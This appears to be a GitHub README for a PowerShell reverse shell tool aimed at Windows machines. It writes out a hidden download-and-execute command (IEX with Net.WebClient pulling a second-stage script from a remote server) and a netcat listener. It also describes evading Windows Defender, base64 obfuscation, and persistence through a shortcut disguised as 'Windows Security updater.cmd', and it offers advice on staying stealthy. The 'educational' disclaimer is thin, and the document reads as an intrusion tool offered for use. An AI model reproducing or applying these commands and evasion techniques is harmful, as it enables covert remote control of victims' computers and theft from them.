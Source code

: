 # Windows Reverse Shell
 
DISCLAIMER: This software is for educational purposes only. This software should not be used for illegal activity. The author is not responsible for its use.


## Description

This software can be used to gain a remote shell on an external Windows-system that supports Powershell (Windows 7 and later). It works by you executing an initial payload, which connects to a server containing the actual/second stage payload. This will circumvent Windows defender.

As soon as the script is injected, it will constantly loop and try to connect to your system. Start your listener and wait a maximum of 10 seconds for the remote shell to connect. Once disconneced, you will not get to connect to it again. You can enable Autostart to get another connection once the "client" restarts his pc.

Despite the script trying to remove its traces (from autostart etc), i did not check if windows (event) logs pick up on this. So please dont do things you shouldnt be doing.

## Configuration

You can either edit "payloadtemplate.ps1.txt" and hardcode what are currently placeholders (`%autostart%`, `%ip%` & `%port%`) to place the file anywhere on the internet and not have to use an ip/domain that belongs to you (because it will show in the taskmanager) - or you use script.php on a webserver of your choice and dynamically generate payloads without changing anything.

For the latter option, just place `script.php` and `payloadtemplate.ps1.txt` next to each other on a webserver and make sure PHP is actually allowed. Some cheap hosts have it disabled.

## Usage

You need to modify the code the "client" runs so their terminal can build a connection to yours.

`powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).downloadString('http://myurl.com/script.php?i=xxx.xxx.xxx&p=xxxx')"`

To create a layer of obsucation, you can encrypt this string in base64 on sites [like these](https://raikia.com/tool-powershell-encoder/). Make sure to read the notes down below!

You can listen to the shell by using `nc -nlvp PORT`. You need to have nc (netcat) installed and change `PORT` to whatever port you made the "client" ping to.

### Arguments

script.php has 2 required arguments and one optional:
- i -> the ip adress the client sends the terminal data to (your pc/server). REQUIRED
- p -> the port the clients terminal tries to connect to (your pc/server). REQUIRED
- a -> weather we write the script to the clients autostart (does not require a value). OPTIONAL

#### About autostart

Since we do not have Admin priviliges, we can not edit the registry or place the payload into the Autostart folder. We need to find a folder where we can place files to and then create a shortcut into the autostart folder. For some reason shortcuts are allowed. **This however will open up a notification for a few seconds that this program is now enabled on boot.** Other than that, you can still find the file manually and you can also see it in the taskmanager under "autostart" as `Windows Security updater.cmd` with no icon. If you want to hide it a little better, get admin rights and figure something out or compile the cmd file to an exe on the clients pc and add an icon and meta data.

If you read "NOTES" you might want to disable autostart on a client that its already enabled on. Just connect to the client and execute the payload again but this time without the autostart argument and on a different port. Close your current session, listen to the new port and once connected, type `exit`. This will remove all traces of the autostart and terminate all running processes.

## NOTES:

As long as the the payload is running and searchinf for a shell, you can see the url to the server if you really search for it in the taskmanager. If you have obfuscated the command into base64, you will still be able to the the decoded url in the taskmanager.

If you execute the payload, the taskmanager will list the powershell task till you connect to it. It gets terminated once the shell terminates. If you have enabled autostart in the payload, the client will **always** run this process. So this might not be what you want when trying to be stealthy. Read in "About autostart" how to disable it again.

## DEMO:
![](display.gif)